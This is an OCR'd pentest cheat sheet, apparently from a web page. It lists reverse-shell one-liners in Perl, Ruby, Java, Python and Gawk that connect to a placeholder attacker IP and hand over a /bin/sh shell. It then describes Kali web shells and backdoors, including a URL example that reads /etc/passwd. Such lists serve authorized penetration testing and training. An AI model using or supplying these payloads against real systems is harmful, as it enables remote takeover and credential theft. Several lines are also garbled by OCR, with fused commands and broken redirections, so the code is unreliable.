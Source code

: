     Perl Reverse Shell

    perl -e ‘use Socket;$i=”ATTACKING-IP”;$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
    Perl Windows Reverse Shell

    perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”ATTACKING-IP:80″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while;’perl -e ‘use Socket;$i=”ATTACKING-IP”;$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
    Ruby Reverse Shell

    ruby -rsocket -e’f=TCPSocket.open(“ATTACKING-IP”,80).to_i;exec sprintf(“/bin/sh -i &%d 2>&%d”,f,f,f)’
    Java Reverse Shell

    r = Runtime.getRuntime()
    p = r.exec([“/bin/bash”,”-c”,”exec 5/dev/tcp/ATTACKING-IP/80;cat &5 >&5; done”] as String[])
    p.waitFor()
    Python Reverse Shell

    python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“ATTACKING-IP”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
    Gawk Reverse Shell

    #!/usr/bin/gawk -f

    BEGIN {
    Port = 8080
    Prompt = “bkd> ”

    Service = “/inet/tcp/” Port “/0/0”
    while (1) {
    do {
    printf Prompt |& Service
    Service |& getline cmd
    if (cmd) {
    while ((cmd |& getline) > 0)
    print $0 |& Service
    close(cmd)
    }
    } while (cmd != “exit”)
    close(Service)
    }
    }
    Kali Web Shells

    The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

    Kali PHP Web Shells

    Kali PHP reverse shells and command shells:
    Command Description
    /usr/share/webshells/php/ php-reverse-shell.php Pen Test Monkey – PHP Reverse Shell
    /usr/share/webshells/ php/php-findsock-shell.php /usr/share/webshells/ php/findsock.c Pen Test Monkey, Findsock Shell. Build gcc -o findsock findsock.c (be mindfull of the target servers architecture), execute with netcat not a browser nc -v target 80
    /usr/share/webshells/ php/simple-backdoor.php PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: http://target.com/simple- backdoor.php?cmd=cat+/etc/passwd
    /usr/share/webshells/ php/php-backdoor.php Larger PHP shell, with a text input box for command execution.
